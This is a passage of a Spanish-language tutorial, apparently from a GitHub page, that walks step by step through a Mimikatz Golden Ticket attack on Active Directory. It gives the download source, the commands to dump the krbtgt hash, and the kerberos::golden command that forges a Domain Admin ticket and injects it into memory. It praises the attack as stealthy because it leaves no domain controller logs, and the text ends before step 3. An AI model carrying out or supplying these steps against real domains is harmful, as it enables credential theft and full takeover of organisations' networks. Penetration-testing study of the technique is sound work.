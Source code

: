> Ideal para ataques sigilosos, ya que **no genera registros en el controlador de dominio (DC)**.

---

### 🔧 Instalación de Mimikatz

1. Descarga compilados desde:

   [https://github.com/ParrotSec/mimikatz/releases](https://github.com/ParrotSec/mimikatz/releases)
   (o usa `Invoke-Mimikatz` si estás en PowerShell).

2. Ejecuta como administrador:

```cmd
mimikatz.exe
```

---

### 🛠️ Ejemplo completo: Golden Ticket

#### 🔍 Paso 1: Obtener los datos necesarios

Supongamos que ya comprometiste una máquina y extraes el hash del usuario `krbtgt`:

```powershell
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

Guarda:

- Dominio: `hack.local`
- SID: `S-1-5-21-1234567890-2345678901-3456789012`
- Hash NTLM de `krbtgt`: `cc33fdc91d9f7f1abecaf1d01273b61c`
- Usuario objetivo: `gustavo`

---

#### 🔐 Paso 2: Crear el Golden Ticket

```mimikatz
kerberos::golden /user:gustavo /domain:hack.local /sid:S-1-5-21-1234567890-2345678901-3456789012 /krbtgt:cc33fdc91d9f7f1abecaf1d01273b61c /groups:512 /ptt
```

- `groups:512` te pone como **Administrador de dominio**.
- `/ptt`: inyecta el ticket en memoria.

✔️ Verifica con:

```cmd
klist
```

---

#### 🧪 Paso 3: Accede a recursos protegidos
